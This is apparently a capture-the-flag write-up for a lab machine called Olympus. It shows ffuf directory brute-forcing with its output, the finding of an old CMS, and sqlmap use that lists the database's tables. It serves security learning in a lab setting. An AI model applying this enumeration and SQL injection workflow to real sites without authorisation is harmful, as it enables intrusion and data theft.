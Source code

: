 the website has not much to offer. just a prompt that an older version of the website is still online.

### dirbusting

```shell
$ ffuf -w `fzf-wordlist` -u http://olympus.thm/FUZZ -e ".txt"

.htpasswd.txt           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 39ms]
.hta.txt                [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 39ms]
                        [Status: 200, Size: 1948, Words: 238, Lines: 48, Duration: 39ms]
.htaccess               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 39ms]
.htpasswd               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 39ms]
.htaccess.txt           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 39ms]
~webmaster              [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 41ms]
.hta                    [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 3854ms]
index.php               [Status: 200, Size: 1948, Words: 238, Lines: 48, Duration: 38ms]
javascript              [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 39ms]
phpmyadmin              [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 37ms]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 36ms]
static                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 36ms]
:: Progress: [9228/9228] :: Job [1/1] :: 1115 req/sec :: Duration: [0:00:14] :: Errors: 0 ::

```

dirbusting returned `~webmaster` as a very good starting point.

![image](/images/Pasted image 20221207204554.png)

the old website seems to be some kind of cms. after a bit of digging i found a login form and a search field.

### sqli

![image](/images/Pasted image 20221207205145.png)

i tried some `sqli` and got an error. yay. i copied the search request from web-dev-tools as `curl` command and replaced `curl` with `sqlmap`

with the flag `--dbs` i got the database name `olympus` and with `--tables` i got the tables underneath.

```shell
[03:28:53] [INFO] fetching tables for database: 'olympus'
Database: olympus
[6 tables]
+------------+
| categories |
| chats      |
| comments   |
| flag       |
| posts      |
| users      |
+------------+
```
